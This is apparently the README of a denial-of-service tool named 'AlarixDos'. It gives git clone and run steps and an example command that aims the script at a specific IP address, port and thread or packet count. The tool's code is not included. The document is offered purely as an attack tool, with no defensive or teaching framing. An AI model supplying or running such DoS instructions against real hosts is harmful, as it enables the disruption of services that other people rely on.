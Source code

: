 # AlarixDos
Credit to LITEDDOS (4L13199)
## How to use?
```
git clone https://github.com/AlarixDev/AlarixDos
cd AlarixDos
python alarixdos.py
```
## Example: 
```
python alarixdos.py 104.27.190.77 8080 100
```